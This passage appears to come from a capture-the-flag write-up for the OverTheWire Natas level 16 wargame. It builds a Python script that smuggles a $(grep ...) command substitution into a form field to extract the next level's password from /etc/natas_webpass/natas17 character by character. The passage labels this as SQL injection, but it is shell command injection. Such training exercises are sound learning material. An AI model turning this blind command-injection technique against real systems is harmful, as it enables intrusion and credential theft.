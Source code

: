 This is also fairly easy:

```python
for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
```

#### Step 4: The SQL Injection String

```python
password_guess = correct_guesses + char
print(password_guess)
needle = f'hackers$(grep ^{ password_guess } /etc/natas_webpass/natas17)'
```

#### Step 5: Web Server Request

```python
import requests

response = requests.post('http://natas16.natas.labs.overthewire.org/index.php', auth=("natas16", password), data={ "needle": needle })
```

#### Step 6: Response Handling

```python
if 'hackers' not in response.text:
    correct_guesses += char
    break
```

And that's it. Bringing it all together:

```python
import getpass
import requests

# Step 1: Credentials
password = getpass.getpass(prompt='Enter password for natas16: ')

# Step 2: Loop over the password length
correct_guesses = ""
for i in range(0, 32):
    # Step 3: Loop over the password characters
    for char in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
        # Step 4: The SQL Injection String
        password_guess = correct_guesses + char
        print(password_guess)
        needle = f'hackers$(grep ^{ password_guess } /etc/natas_webpass/natas17)'

        # Step 5: Web Server Request
        response = requests.post('http://natas16.natas.labs.overthewire.org/index.php', auth=("natas16", password), data={ "needle": needle })

        # Step 6: Response Handling
        if 'hackers' not in response.text:
            correct_guesses += char
            break
```
